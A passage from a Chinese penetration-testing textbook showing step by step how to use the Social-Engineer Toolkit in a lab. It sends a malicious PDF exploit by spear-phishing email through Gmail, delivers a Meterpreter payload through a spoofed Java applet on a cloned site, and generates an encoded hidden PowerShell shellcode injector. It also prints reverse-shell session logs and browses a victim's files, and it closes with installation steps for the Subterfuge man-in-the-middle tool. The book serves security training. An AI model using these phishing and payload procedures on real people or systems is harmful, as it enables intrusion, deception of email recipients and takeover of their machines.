7.4 使用SET实施攻击
前面介绍了社会工程学工具包（SET）的简单使用。为了能帮助用户更容易的理解社会工程学的强大功能。本节将介绍使用社会工程学工具包实施各种攻击。
7.4.1 针对性钓鱼攻击向量
针对性钓鱼攻击向量通过构造特殊文件格式的漏洞进行渗透攻击，如利用Adobe Reader 8.1.0（PDF阅读器）的漏洞。实现钓鱼攻击向量主要通过发送邮件附件的方式，将包含渗透代码的文件发送到目标主机。当目标主机的用户打开邮件附件时，目标主机就会被攻陷和控制。
SET使用简单邮件管理协议（SMTP）的开放代理（匿名的或者需认证的）、Gmail和Sendmail来发送邮件。SET同时也使用标准电子邮件和基于HTML格式的电子邮件来发动钓鱼攻击。
【实例7-1】使用SET实现钓鱼攻击向量，本例中通过发送存在渗透代码的PDF格式文件到目标主机。具体操作步骤如下所示。
（1）启动社会工程学。执行命令如下所示：

（2）在以上菜单中选择社会工程学，编号为1，如下所示：

（3）在以上菜单中选择攻击类型。这里选择钓鱼攻击向量，编号为1，如下所示：
set> 1
The Spearphishing module allows you to specially craft email messages and send
them to a large (or small) number of people with attached fileformat malicious
payloads. If you want to spoof your email address, be sure "Sendmail" is in-
stalled (apt-get install sendmail) and change the config/set_config SENDMAIL=OFF
flag to SENDMAIL=ON.
There are two options, one is getting your feet wet and letting SET do
everything for you (option 1), the second is to create your own FileFormat
payload and use it in your own attack. Either way, good luck and enjoy!
1) Perform a Mass Email Attack
2) Create a FileFormat Payload
3) Create a Social-Engineering Template
99) Return to Main Menu
以上输出的信息显示了钓鱼攻击向量中可用的工具载荷。
（4）这里选择大规模电子邮件攻击，编号为1，如下所示：
set:phishing>1
Select the file format exploit you want.
The default is the PDF embedded EXE.
********** PAYLOADS **********
1) SET Custom Written DLL Hijacking Attack Vector (RAR, ZIP)
2) SET Custom Written Document UNC LM SMB Capture Attack
3) Microsoft Windows CreateSizedDIBSECTION Stack Buffer Overflow
4) Microsoft Word RTF pFragments Stack Buffer Overflow (MS10-087)
5) Adobe Flash Player "Button" Remote Code Execution
6) Adobe CoolType SING Table "uniqueName" Overflow
7) Adobe Flash Player "newfunction" Invalid Pointer Use
8) Adobe Collab.collectEmailInfo Buffer Overflow
9) Adobe Collab.getIcon Buffer Overflow
10) Adobe JBIG2Decode Memory Corruption Exploit
11) Adobe PDF Embedded EXE Social Engineering
12) Adobe util.printf() Buffer Overflow
13) Custom EXE to VBA (sent via RAR) (RAR required)
14) Adobe U3D CLODProgressiveMeshDeclaration Array Overrun
15) Adobe PDF Embedded EXE Social Engineering (NOJS)
16) Foxit PDF Reader v4.1.1 Title Stack Buffer Overflow
17) Apple QuickTime PICT PnSize Buffer Overflow
18) Nuance PDF Reader v6.0 Launch Stack Buffer Overflow
19) Adobe Reader u3D Memory Corruption Vulnerability
20) MSCOMCTL ActiveX Buffer Overflow (ms12-027)
set:payloads>8
输出的信息显示了钓鱼攻击向量中可以使用的文件格式，默认是PDF格式。
（5）这里利用Abobe PDF的Collab.collectEmaillnfo漏洞，所以选择编号8，如下所示：

以上信息显示了攻击的方式。
（6）这里选择第2个模块，如下所示：
set:payloads>2
set> IP address for the payload listener:192.168.41.156 #设置攻击主机的地址
set:payloads> Port to connect back on [443]: #设置攻击主机的端口号
[-] Defaulting to port 443…
[-] Generating fileformat exploit…
[*] Payload creation complete.
[*] All payloads get sent to the /root/.set/template.pdf directory
[-] As an added bonus, use the file-format creator in SET to create your attachment.
Right now the attachment will be imported with filename of'template.
whatever'
Do you want to rename the file?
example Enter the new filename: moo.pdf
1\. Keep the filename, I don't care.
2\. Rename the file, I want to be cool.
从以上输出信息中，可以看到攻击载荷创建完成。所有攻击载荷保存在/root/.set/中，文件名为template.pdf。
（7）这里选择是否重命名该文件。这里使用默认的PDF文件template.pdf，输入编号1，如下所示：
set:phishing>1
[*] Keeping the filename and moving on.
Social Engineer Toolkit Mass E-Mailer
There are two options on the mass e-mailer, the first would
be to send an email to one individual person. The second option
will allow you to import a list and send it to as many people as
you want within that list.
What do you want to do:
1\. E-Mail Attack Single Email Address
2\. E-Mail Attack Mass Mailer
99\. Return to main menu.
输出信息显示了邮件攻击的方式。
（8）这里选择针对单一邮件地址进行攻击，输入编号1，如下所示：
set:phishing>1
Do you want to use a predefined template or craft
a one time email template.
1\. Pre-Defined Template
2\. One-Time Use Email Template
输出的信息提示是否要使用一个预先定义的模块。SET允许攻击者创建不同的模板，并且在使用时支持动态导入。
（9）这里使用预先定义的模块，输入编号1，如下所示：
set:phishing>1
[-] Available templates:
1: Have you seen this?
2: How long has it been?
3: Strange internet usage from your computer
4: Status Report
5: New Update
6: Computer Issue
7: Dan Brown's Angels & Demons
8: Order Confirmation
9: WOAAAA!!!!!!!!!! This is crazy…
10: Baby Pics
输出的信息显示了所有可用的模块。
（10）这里选择使用预先定义的SET邮件模板Status Report，输入编号4，如下所示：
set:phishing>4
set:phishing> Send email to:********@126.com #设置发送邮件的目的地址
1\. Use a gmail Account for your email attack.
2\. Use your own server or open relay
输出信息显示了给目标主机发送地址的方法。
（11）这里选择使用Gmail邮箱账号，输入编号1，如下所示：
set:phishing>1
set:phishing> Your gmail email address:***********@gmail.com #输入Gmail邮件账户
set:phishing> The FROM NAME user will see: :
Email password: #输入邮箱密码
set:phishing> Flag this message/s as high priority? [yes|no]:yes
[*] SET has finished delivering the emails
set:phishing> Setup a listener [yes|no]:
从输出信息中，可以看到SET传递邮件设置完成。此时就可以使用该Gmail账户，给输入的目的邮件地址（**@126.com）发送恶意文件。最后，提示是否设置一个监听。
（12）这里设置一个监听，用来监听攻击载荷反弹连接。当SET启动Metasploit时，它已经配置了所有必需的选项，将开始处理攻击主机的IP反向连接到443端口，如下所示：

输出的信息显示了监听攻击载荷的信息。当目标主机打开发送的恶意邮件时，将会自动的连接到攻击主机192.168.41.156:443。
此时攻击主机可以将前面创建的template.pdf文件，通过电子邮件发送给目标。当目标用户打开它并认为是合法的PDF文件时，此时目标主机被立即控制。在攻击主机上，将看到如下所示的信息：
msf exploit(handler) >
[*] Sending stage (769024 bytes) to 192.168.41.146
[*] Meterpreter session 1 opened (192.168.41.156:443 -> 192.168.41.146:1083) at 2014-06-07 11:17:11 +0800
输出的信息表示，被攻击主机的地址是192.168.41.146。此时，攻击主机与目标主机成功的建立了一个会话，如下所示：

从输出的信息中，可以看到有一个会话。该会话中，描述了目标主机的相关信息。如操作系统类型为win32、主机名为AA-886OKJM26FSW、登录的用户为Test及主机IP地址。激活该会话后，就可以在目标主机上进行任何操作。也就说相当于控制了目标主机。激活会话，如下所示：
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
meterpreter >
从输出的信息中可以看到会话1被成功激活。此时就可以在meterpreter命令行下，执行各种命令。如登录目标主机的Shell，如下所示：
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 792 created.
Channel 2 created.
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\Documents and Settings\Test\桌面>
输出信息显示为C:\Documents and Settings\Test\桌面>，表示成功登录到目标主机。此时相当于是以Test用户的身份，在目标主机中进行操作。查看当前目录中的文件夹，如下所示：
C:\Documents and Settings\Test\桌面>dir #列出目录中的所有文件
dir
驱动器C中的卷没有标签
卷的序列号是 1806-07F4
C:\Documents and Settings\Test\桌面 的目录
2014-06-07 11:11 <DIR> .
2014-06-07 11:11 <DIR> ..
2014-05-06 19:46 54 111.txt
2014-06-07 11:00 57,364,480 AdbeRdr810_zh_CN.msi
2014-06-06 16:01 46,844 JEdB2oma7AEGV7G.pdf
2014-06-06 18:54 6,619 template.pdf
4 个文件 57,417,997 字节
2 个目录 38,359,552,000 可用字节
输出的信息显示了目标主机桌面上的所有文件及目录。还可以查看文件的内容，如下所示：
C:\Documents and Settings\Test\桌面>type 111.txt #查看文件内容
type 111.txt
Ethernet adapter 本地连接:
Connection-specific DNS Suffix . : localdomain
IP Address. . . . . . . . . . . . : 192.168.41.146
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.41.2
输出的信息显示了111.txt文件的内容。
7.4.2 Web攻击向量
Web攻击向量会特意构造出一些对目标而言是可信且具有诱惑力的网页。SET中的Web攻击向量可以复制出和实际运行的可信站点，看起来和网页完全一样。这样，目标用户以为自己正在访问一个合法的站点，而不会想到是被攻击。本小节将介绍使用SET实现Web攻击向量。
【实例7-2】下面使用Java applet攻击实现Web攻击向量。具体操作步骤如下所示。
Java applet攻击引入了恶意Java applet程序进行智能化的浏览器检查，确保applet能在目标浏览器中正确运行，同时也能在目标主机上运行攻击载荷。Java applet攻击并不被认为是Java本身的漏洞，只是当受攻击目标浏览恶意网页时，网页会弹出一个警告。该警告信息询问是否需要运行一个不被信任的Java applet程序。由于Java允许用户对一个apple选择任意名字进行签名，用户可以为它的发布者定义为Google和Microsoft等。这样，很容易使一些人遭受攻击。
（1）启动社会工程学。执行命令如下所示：
root@kali:~# setoolkit
Select from the menu:
1) Social-Engineering Attacks
2) Fast-Track Penetration Testing
3) Third Party Modules
4) Update the Metasploit Framework
5) Update the Social-Engineer Toolkit
6) Update SET configuration
7) Help, Credits, and About
99) Exit the Social-Engineer Toolkit
set>
以上输出信息显示了所有的攻击菜单列表。
（2）这里选择社会工程学攻击，输入编号1。将显示如下所示的信息：

输出的信息显示了社会工程学中，可使用的攻击列表。
（3）这里选择Web攻击向量，输入编号2。将显示如下所示的信息：
set> 2
The Web Attack module is a unique way of utilizing multiple web-based attacks in order to compromise the intended victim.
The Java Applet Attack method will spoof a Java Certificate and deliver a metasploit based payload. Uses a customized java applet created by Thomas Werth to deliver the payload.
The Metasploit Browser Exploit method will utilize select Metasploit browser exploits through an iframe and deliver a Metasploit payload.
The Credential Harvester method will utilize web cloning of a web- site that has a username and password field and harvest all the information posted to the website.
The TabNabbing method will wait for a user to move to a different tab, then refresh the page to something different.
The Web-Jacking Attack method was introduced by white_sheep, emgent. This method utilizes iframe replacements to make the highlighted URL link to appear legitimate however when clicked a window pops up then is replaced with the malicious link. You can edit the link replacement settings in the set_config if its too slow/fast.
The Multi-Attack method will add a combination of attacks through the web attack menu. For example you can utilize the Java Applet, Metasploit Browser, Credential Harvester/Tabnabbing all at once to see which is successful.
1) Java Applet Attack Method
2) Metasploit Browser Exploit Method
3) Credential Harvester Attack Method
4) Tabnabbing Attack Method
5) Web Jacking Attack Method
6) Multi-Attack Web Method
7) Full Screen Attack Method
99) Return to Main Menu
set:webattack>
输出的信息显示了Web攻击向量中，可使用的攻击方法列表。
（4）这里选择Java applet攻击方法，输入编号1。将显示如下所示的信息：
set:webattack>1
The first method will allow SET to import a list of pre-defined web
applications that it can utilize within the attack.
The second method will completely clone a website of your choosing
and allow you to utilize the attack vectors within the completely
same web application you were attempting to clone.
The third method allows you to import your own website, note that you
should only have an index.html when using the import website
functionality.
1) Web Templates
2) Site Cloner
3) Custom Import
99) Return to Webattack Menu
set:webattack>
输出的信息显示了Java applet攻击的菜单列表。一般情况下，使用前两种。其中第一种（Web模块）是社会工程学创建一个一般的网页；第二种（复制网站）是使用已存在的网页作为一个模块，来攻击网页。
（5）这里选择复制网站，输入编号2。将显示如下所示的信息：

以上输出的信息显示了可使用的攻击载荷。
（6）这里选择Windows Reverse_TCP Meterpreter攻击载荷，建立一个反向TCP连接。输入编号2，将显示如下所示的信息：

以上输出的信息是攻击主机的相关配置。这时候，当目标主机通过浏览器访问攻击主机时将会被攻击。
（7）此时在目标主机上访问攻击主机，将出现如图7.20所示的界面。

图7.20 警告对话框
（8）从该界面可以看到有一个警告对话框，询问是否要运行该程序。该对话框就是Java applet弹出的。从名称中可以看到，是Verified Trusted and secure（VERIFIED）。现在单击“运行”按钮，攻击主机将会创建多个远程会话，如下所示：
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 1 opened (192.168.6.103:443 -> 192.168.6.106:50729) at 2014-07-19 12:23:24 +0800
[*] Meterpreter session 2 opened (192.168.6.103:21 -> 192.168.6.106:50728) at 2014-07-19 12:23:25 +0800
[*] Meterpreter session 3 opened (192.168.6.103:22 -> 192.168.6.106:50727) at 2014-07-19 12:23:25 +0800
[*] Meterpreter session 4 opened (192.168.6.103:53 -> 192.168.6.106:50730) at 2014-07-19 12:23:25 +0800
msf exploit(handler) >
从以上输出的信息中，可以看到创建了4个会话。此时可以使用sessions命令查看创建的会话。
（9）查看会话。执行命令如下所示：

从输出的信息中，可以看到攻击主机使用不同的端口创建了四个会话。此时可以选择启动任何一个会话，获取到远程主机的命令行Shell。
（10）启动会话1，并获取远程主机的Shell。执行命令如下所示：
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > shell
Process 5056 created.
Channel 1 created.
Microsoft Windows [版本 6.1.7601]
(c) 2009 Microsoft Corporation
C:\Users\Administrator\Desktop>
从输出的信息中，可以看到成功的获取到一个远程Shell。
7.4.3 PowerShell攻击向量
在社会工程学中，使用基于Java的PowerShell攻击向量是非常重要的。如果目标主机没有运行Java，则不能欺骗它访问攻击主机社会工程学的页面，将不能进行攻击。所以需要使用另一种方法实现，就是向目标主机发送病毒文件。使用PowerShell攻击向量可以创建PowerShell文件，并将创建好的文件发送给目标。当目标运行时，就可以获取一个远程连接。本小节将介绍PowerShell攻击向量。
【实例7-3】使用PowerShell攻击向量创建PowerShell文件，并将该文件发送给目标主机。具体操作步骤如下所示。
（1）启动社会工程学。执行命令如下所示：
Select from the menu:
1) Social-Engineering Attacks
2) Fast-Track Penetration Testing
3) Third Party Modules
4) Update the Metasploit Framework
5) Update the Social-Engineer Toolkit
6) Update SET configuration
7) Help, Credits, and About
99) Exit the Social-Engineer Toolkit
set>
（2）选择社会工程学，输入编号1，如下所示：
set> 1
Select from the menu:
1) Spear-Phishing Attack Vectors
2) Website Attack Vectors
3) Infectious Media Generator
4) Create a Payload and Listener
5) Mass Mailer Attack
6) Arduino-Based Attack Vector
7) SMS Spoofing Attack Vector
8) Wireless Access Point Attack Vector
9) QRCode Generator Attack Vector
10) Powershell Attack Vectors
11) Third Party Modules
99) Return back to the main menu.
set>
（3）选择PowerShell攻击向量，输入编号10。将显示如下所示的信息：
set> 10
The Powershell Attack Vector module allows you to create PowerShell specific attacks. These attacks will allow you to use PowerShell which is available by default in all operating systems Windows Vista and above. PowerShell provides a fruitful landscape for deploying payloads and performing functions that do not get triggered by preventative technologies.
1) Powershell Alphanumeric Shellcode Injector
2) Powershell Reverse Shell
3) Powershell Bind Shell
4) Powershell Dump SAM Database
99) Return to Main Menu
set:powershell>
（4）选择PowerShell字母代码注入，输入编号1。将显示如下所示的信息：

输出的信息显示了攻击主机的配置信息。此时已经成功启动了攻击载荷，等待目标主机的连接。以上设置完成后，将会在/root/.set/reports/powershell/目录下创建了一个渗透攻击代码文件。该文件是一个文本文件，其文件名为x86_powershell_injection.txt。
（5）此时再打开一个终端窗口，查看渗透攻击文件的内容，如下所示：
root@kali:~# cd /root/.set/reports/powershell/
root@kali:~/.set/reports/powershell# ls
powershell.rc x86_powershell_injection.txt
root@kali:~/.set/reports/powershell# cat x86_powershell_injection.txt
powershell -nop -windows hidden -noni -enc JAAxACAAPQAgACcAJABjACAAPQAgACcAJwBb
AEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACkAXQBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAFYAaQByAHQAdQBhAGwAQQBsAGwAbwBjACgASQBuAHQAUAB0AHIAIABsAHAAQQBkAGQAcgBlAHMAcwAsACAAdQBpAG4AdAAgAGQAdwBTAGkAegBlACwAIAB1AGkAbgB0ACAAZgBsAEEAbABsAG8AYwBhAHQAaQBvAG4AVAB5AHAAZQAsACAAdQBpAG4AdAAgAGYAbABQAHIAbwB0AGUAYwB0ACkAOwBbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACkAXQBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEMAcgBlAGEAdABlAFQAaAByAGUAYQBkACgASQBuAHQAUAB0AHIAIABsAHAAVABoAHIAZQBhAGQAQQB0AHQAcgBpAGIAdQB0AGUAcwAsACAAdQBpAG4AdAAgAGQAdwBTAHQAYQBjAGsAUwBpAHoAZQAsACAASQBuAHQAUAB0AHIAIABsAHAAUwB0AGEAcgB0AEEAZABkAHIAZQBzAHMALAAgAEkAbgB0AFAAdAByACAAbABwAFAAYQByAGEAbQBlAHQAZQByACwAIAB1AGkAbgB0ACAAZAB3AEMAcgBlAGEAdABpAG8AbgBGAGwAYQBnAHMALAAgAEkAbgB0AFAAdAByACAAbABwAFQAaAByAGUAYQBkAEkAZAApADsAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAbQBzAHYAYwByAHQALgBkAGwAbAAiACkAXQBwA
以上信息就是x86_powershell_injection.txt文件中的内容。从第一行可以看出，该文件是运行powershell命令。如果目标主机运行这段代码，将会与Kali主机打开一个远程会话。
（6）此时，可以将x86_powershell_injection.txt文件中的内容复制到目标主机（Windows 7）的DOS下，然后运行。Kali主机将会显示如下所示的信息：
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 1 opened (192.168.6.103:443 -> 192.168.6.106:51097) at 2014-07-18 15:36:00 +0800
从输出的信息，可以看到成功打开了一个Meterpreter会话。
（7）启动会话1，并打开一个远程Shell。执行命令如下所示：
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1…
meterpreter > shell
Process 636 created.
Channel 1 created.
Microsoft Windows [版本 6.1.7601]
(c) 2009 Microsoft Corporation
C:\Users\Administrator>
从输出的信息中，可以看到成功的获取到一个远程Shell。
注意：在以上例子中，通过复制粘贴的方式将PowerShell文本文件发送给了目标，并执行它来获取远程Shell。但是实际情况下，这是不可能的。所以，需要将创建的PowerShell文本文件转换成可执行的.exe文件或批处理文件.bat。用户也可以使用前面章节中介绍的Veil程序，直接创建.bat文件。
7.4.4 自动化中间人攻击工具Subterfuge
Subterfuge是一款用Python写的中间人攻击框架，它集成了一个前端界面，并收集了一些著名的可用于中间人攻击的安全工具。成功运行Subterfuge需要Django和scapy等模块。在Subterfuge安装包的dependencies目录下，提供了Subterfuge所需的Python模块。本小节将介绍Subterfuge工具的安装和使用。
【实例7-4】安装Subterfuge工具。具体操作步骤如下所示。
（2）解压缩Subterfuge软件包。执行命令如下所示：
root@kali:~# tar zxvf subterfuge_packages.tar.gz
（3）安装Subterfuge软件包。执行命令如下所示：
root@kali:~# cd subterfuge/
root@kali:~/subterfuge# python install.py
执行以上命令后将显示如图7.21所示的界面。
